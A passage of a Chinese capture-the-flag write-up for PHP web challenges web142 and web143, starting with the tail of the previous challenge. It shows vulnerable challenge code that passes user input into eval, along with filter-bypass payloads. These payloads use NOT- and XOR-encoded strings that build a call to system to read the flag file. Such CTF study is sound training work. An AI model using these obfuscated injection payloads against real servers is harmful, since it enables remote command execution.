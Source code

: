 **payload**

```
v1=1&v3=-(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)-&v2=1
```



### web142

```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
} 
```

这里我们令`v1=0`就可以让`$d=0`



### web143

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

过滤了加减，我们可以用乘除，过滤了取反我们可以用异或

**payload**

```
v1=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")*&v2=1
```


